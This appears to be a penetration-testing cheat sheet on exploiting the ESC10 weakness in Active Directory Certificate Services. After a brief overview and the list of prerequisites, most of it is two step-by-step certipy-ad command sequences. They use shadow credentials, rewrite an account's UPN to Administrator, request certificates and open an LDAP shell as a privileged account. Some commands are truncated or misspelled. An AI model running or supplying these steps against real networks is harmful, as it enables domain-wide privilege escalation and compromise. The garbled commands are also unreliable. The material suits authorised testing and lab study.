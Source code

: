 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

# General Overview: 

Exploiting ESC10 in AD CS involves taking advantage of weak certificate mapping configurations that allow low-privileged users to obtain certificates capable of high-privilege impersonation. In environments where ESC10 is present, attackers can request certificates that lack proper security extensions, such as the `szOID_NTDS_CA_SECURITY_EXT`. 

These certificates can then be used to authenticate as privileged accounts, like domain controllers, enabling the attacker to escalate privileges and potentially compromise the entire domain. 

This attack is particularly effective when the `StrongCertificateBindingEnforcement` setting is not strictly enforced, allowing certificates with weak or absent security extensions to be accepted by Kerberos or Schannel.

## Requirements: 

- StrongCertificateBindingEnforcement set to 0
- GenericWrite over any account A to compromise any account B
 

# Abusing ESC10  Certificate Templates

## Scenario 1: 

## Certipy

- certipy-ad shadow auto -username afsimmons@megacorpone.com -p Spawn123! -account xadmin
- certipy-ad account update -username afsimmons@megacorpone.com -p Spawn123! -user xadmin -upn Administrator
- certipy-ad rec -CA 'corp-DC-CA' -username xadmin@megacorpone.com -hashes "NT HASH"
- certipy-ad account update -username afsimmons@megacorpone.com -p Spawn123! -user 

## Scenario 2:

- certipy-ad shadow auto -username afsimmons@megacorpone.com -p Spawn123! -account xadmin
- certipy-ad account update -username afsimmons@megacorpone.com -p Spawn123! -user xadmin -upn Administrator
- certipy-ad req -username xadmin@megacorpone.com -hash "NT-HASH" -CA 'corp-DC-CA' -template 'Vuln Template'
- certipy-ad account update -username afsimmons@megacorpone.com -p Spawn123! -user xadmin -upn xadmin@megacorpone.com
- certipy-ad auth -pfx dc.pfx -dc-ip 172.21.1.5 -ldap-shell